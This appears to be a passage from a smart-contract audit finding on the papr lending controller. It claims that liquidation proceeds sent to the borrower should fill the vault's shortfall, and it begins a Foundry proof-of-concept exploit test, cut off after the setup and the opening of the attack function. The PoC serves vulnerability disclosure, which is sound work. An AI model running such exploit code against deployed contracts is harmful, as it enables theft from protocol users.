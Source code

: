 **The tokens being transferred to the borrower in step 8 should be used to fill the shortfall of the vault.**
Test code for PoC:
```solidity
diff --git a/test/paprController/PoC.sol b/test/paprController/PoC.sol
new file mode 100644
index 0000000..0b12914
--- /dev/null
+++ b/test/paprController/PoC.sol
@@ -0,0 +1,147 @@
+// SPDX-License-Identifier: GPL-2.0-or-later
+pragma solidity ^0.8.17;
+
+import "forge-std/console.sol";
+import {ERC721} from "solmate/tokens/ERC721.sol";
+
+import {ReservoirOracleUnderwriter} from "../../src/ReservoirOracleUnderwriter.sol";
+import {INFTEDA} from "../../src/NFTEDA/extensions/NFTEDAStarterIncentive.sol";
+
+import {BasePaprControllerTest} from "./BasePaprController.ft.sol";
+import {IPaprController} from "../../src/interfaces/IPaprController.sol";
+
+contract PoC is BasePaprControllerTest {
+    event ReduceDebt(address indexed account, ERC721 indexed collateralAddress, uint256 amount);
+    event Transfer(address indexed from, address indexed to, uint256 amount);
+
+    INFTEDA.Auction auction1;
+    INFTEDA.Auction auction2;
+    address purchaser = address(2);
+
+    function setUp() public override {
+        super.setUp();
+
+        // mint a second collateral
+        nft.mint(borrower, collateralId+1);
+        // add collaterals, loan max and sells
+        _addCollaterals();
+        _loanMaxAndSell();
+        // borrower now has 2.9... USD
+        assertGt(underlying.balanceOf(borrower), 2.9e6);
+
+        // prepare purchaser
+        vm.startPrank(purchaser);
+        safeTransferReceivedArgs.debt = controller.maxDebt(oraclePrice) - 10;
+        safeTransferReceivedArgs.proceedsTo = purchaser;
+        safeTransferReceivedArgs.swapParams.minOut = 0;
+        for (uint i = 0; i < 3; i ++) {
+            nft.mint(purchaser, 10+i);
+            nft.safeTransferFrom(purchaser, address(controller), 10+i, abi.encode(safeTransferReceivedArgs));
+        }
+        vm.stopPrank();
+        // purchaser now has 4.4... papr
+        assertGt(debtToken.balanceOf(purchaser), 4.4e18);
+
+        // make max loan liquidatable
+        vm.warp(block.timestamp + 1 days);
+        priceKind = ReservoirOracleUnderwriter.PriceKind.TWAP;
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+    }
+
+    function testPoC() public {
+        vm.startPrank(purchaser);
+        debtToken.approve(address(controller), type(uint256).max);
```